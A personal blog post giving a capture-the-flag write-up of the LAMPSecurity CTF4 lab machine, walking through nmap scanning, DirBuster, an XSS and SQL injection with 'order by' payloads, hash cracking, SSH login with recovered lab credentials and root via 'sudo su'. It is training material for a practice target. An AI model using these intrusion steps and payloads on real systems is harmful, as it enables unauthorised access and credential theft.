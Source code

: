 ```yaml
---
layout: post
title:	"Lamp Security CTF4 Writeup"
date:	2017-12-20 21:00:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hi everyone. This is my solution for LAMP security CTF4. This CTF is very easy, you can download it from [Vulnhub.com](https://vulnhub.com) or play online on [root-me.org](https://root-me.org). I did it on root-me, therefore my target was ctf07.root-me.org.

Ok let’s start, i ran nmap to see which services were open (usually I run a second scan with “-p 1-65535” parameter to identify all the ports).

~~~
Syrion:~ syrion$ sudo nmap -sT -sV -O ctf07.root-me.org
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-07 21:19 CEST
Nmap scan report for ctf07.root-me.org (212.83.142.84)
Host is up (0.040s latency).
Not shown: 727 closed ports, 270 filtered ports
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
25/tcp open tcpwrapped
80/tcp open tcpwrapped
Device type: general purpose|WAP
Running (JUST GUESSING): OpenBSD 4.X (88%), Apple embedded (87%), FreeBSD 6.X (87%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/h:apple:airport_extreme cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: OpenBSD 4.0 (88%), Apple AirPort Extreme WAP (87%), FreeBSD 6.2-RELEASE (87%), FreeBSD 6.3-RELEASE (87%), OpenBSD 4.3 (87%)
No exact OS matches for host (test conditions non-ideal).
~~~

At this point I used netcat to verify the services on the three open ports. As excepted:

* SSH on 22
* SENDMAIL on 25
* HTTP on 80

In the meantime,  I ran DirBuster, and I noticed this file:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img1.png)

It was the database’s structure:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img2.png)

This was the website on port 80:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img3.png)

I noticed this xss on the search bar:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img4.png)

Then I found an SQL Injection on the blog:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img5.png)

At this pont I started to enumerate the select statement’s parameters by using this payloads:

* id=1 order by 1 —
* id=1 order by 2 —

They were five!

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img6.png)

I needed to know which parameters were visible:

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img7.png)

And then I performed the full SQL Inection (i knew the database structure because of db.sql):

![Screenshot]({{ site.baseurl }}/images/posts/2017/2017-12-20-lamp-security-ctf4-writeup/img8.png)

Ok let’s use [crackstation](https://crackstation.net/) to crack the hash. I tried to login as dstevens via ssh with the following credentials:

~~~
username dstevens
password: ilike2surf
~~~

And I succeeded:

~~~
Syrion:~ syrion$ ssh dstevens@ctf07.root-me.org
The authenticity of host ‘ctf07.root-me.org (212.83.142.84)’ can’t be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added ‘ctf07.root-me.org,212.83.142.84’ (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@ctf07.root-me.org’s password:
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50
[dstevens@ctf ~]$
~~~

I tried to run “sudo su” and yes… it worked (LOL):

~~~
[dstevens@ctf ~]$ sudo su
Password:
[root@ctf dstevens]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf dstevens]# cat /passwd
8cfd7e1715e7957021b5aa23f7839131
~~~

The privilege escalation was very very…very easy 😛

Bye bye!
